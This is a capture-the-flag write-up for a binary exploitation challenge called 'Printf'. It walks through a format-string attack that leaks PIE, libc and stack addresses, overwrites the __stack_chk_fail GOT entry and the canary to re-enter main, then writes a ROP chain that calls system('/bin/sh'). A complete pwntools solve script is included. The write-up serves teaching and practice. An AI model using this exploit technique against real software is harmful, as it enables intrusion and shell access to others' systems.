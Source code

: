 ## 1. Printf

author: 0x1337
points: 482

the checksec output shows
```
  Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

WoW! we have partial RelRo cant wait for GOT overwrites.

the decomp:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int v4[2]; // [rsp+8h] [rbp-228h] BYREF
  __int64 buf[68]; // [rsp+10h] [rbp-220h] BYREF

  buf[67] = __readfsqword(0x28u);
  memset(buf, 0, 0x210uLL);
  buf[64] = 1LL;
  buf[65] = (__int64)&buf[64];
  v4[1] = 0;
  v4[0] = 0;
  puts("Easy peasy printf, don't you think?");
  printf("I feel generous so have this: %p\n", main);
  putchar(62);
  __isoc99_scanf("%u", v4);
  if ( v4[0] > 0x20u )
  {
    printf("not this again :)");
    exit(0);
  }
  buf[65] += (unsigned int)v4[0];
  puts("Show me what you've got!");
  printf("> ");
  read(0, buf, 0x200uLL);
  puts("Here we go!!");
  printf((const char *)buf);
  return 0;
}
```



If you're unfamiliar with format strings i recommend you to first read this excellent [blog](https://axcheron.github.io/exploit-101-format-strings/) which explains most of the stuff required in detail.

As you can see, we once again have one shot at printf here... but on stack leak this time,
so we cant modify the RIP in printf's frame easily without some bruteforce.

Instead we have PIE leak:
```c
 printf("I feel generous so have this: %p\n", main);
 ```

 And seeing that the binary has partial relro, you should start which got should we be overwriting
 using this leak.
 Another wonderful thing is the stack pointer present in the buffer area which gets modified based on
 our first input

 ```c
 buf[64] = 1LL;
 buf[65] = (__int64)&buf[64];
 ```
```c
buf[65] += (unsigned int)v4[0];
```
`v4` here cant be greater than 32, No problem! we can add '24' to so `buf[64]` will now contain
a pointer to where canary is!!

This is great because if we trigger `__stack_chk_fail` by overwriting canary, we can call main again!
by overwriting the GOT entry of `__stack_chk_fail` with `main` address


So our first payload will try leak libc address and stack address (the stack address where canary is)
and also overwrite GOT entry for  `__stack_chk_fail` as well as canary.

![stack.png](stack.png)

The payload:
```python
sz = exe.sym.main & 0xffff
sz -= 34
pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
```

Let's deconstruct this payload, here i am leaking 77th and 73rd indexes which contain the libc address
and stack canary addresss respectively
Also the offset of controllable area is again 8 
Then i overwrite the 2 bytes on GOT `__stack_chk_fail` to make it `main` and overwrite canary by doing
`%2c%72$hn`

the `a`s are there for padding 

as you can see, on doing `x/100gx $rsp` after putting a bp on printf
you can see
```
0x7ffc35b49198:	0x00007ffc35b491a8	0x0000000000000000
0x7ffc35b491a8:	0xd7fcc47afa37d700	0x0000000000000001
```
we indeed have a pointer to canary which is the on 73rd index
and

```
0x7ffc35b48f88:	0x0000000000000018	0x252e70243737252e
0x7ffc35b48f98:	0x6161612e70243337	0x2563353932333325
0x7ffc35b48fa8:	0x2561616e68243431	0x6e68243337256332
0x7ffc35b48fb8:	0x6161616161616161	0x000055556f64b010
```

where 0x18 was the num we entered to get it to point to stack_canary and our payload after that.

So we get our leaks, and write the LSB of the canary and the 2bytes of GOT entry
giving us a shot to call main again

like in the previous challenge we once again calculate the rip in printf's stack frame and write our
rop chain in there using pwntools

```python
write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}
pl = fmtstr_payload(8,write)
```

And finally get our shell


The solve script:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./printf2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
context.terminal= ['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",3333)
        context.noptrace=True

    return r


def main():
    r = conn()
    r.recvuntil(b'this:')
    exe.address =  int(r.recvline().strip(),16) -exe.sym.main
    log.info(f'pie : {hex(exe.address)}')
    off = 8
    r.sendlineafter(b'>',b'24')
    sz = exe.sym.main & 0xffff
    sz -=34
    pl = b'.%77$p.%73$p.aaa'+f'%{sz}c%14$hnaa'.encode()+b'%2c%73$hnaaaaaaaa'+p64(exe.got['__stack_chk_fail'])
    print(pl)
    gdb.attach(r)
    r.sendlineafter(b'>',pl)
    l = r.recvuntil(b'aaaaaa')
    print(l)
    libc.address = int(l.split(b".")[1],16) -0x29d90
    stack = int(l.split(b".")[2],16)
    log.info(f"libc : {hex(libc.address)}")
    log.info(f"stack : {hex(stack)}")
    pop_rdi =  libc.address+0x2a3e5
    ret = pop_rdi+1
    binsh = next(libc.search(b'/bin/sh'))
    #one_gad = libc.address + 0x583e3
    #pop_rbx = libc.address+0xef52b
    stk = exe.got['__stack_chk_fail']
    rip = stack-0x470
    log.info(f"the rip :{hex(rip)}")
    write = { rip:pop_rdi,rip+8:binsh,rip+16:ret,rip+24:libc.sym.system}

    pl = fmtstr_payload(8,write)
    print(len(pl))
    sleep(1)
    r.sendlineafter(b'>',b'24')
    r.sendlineafter(b'>',pl)
    r.interactive()


if __name__ == "__main__":
    main()
```
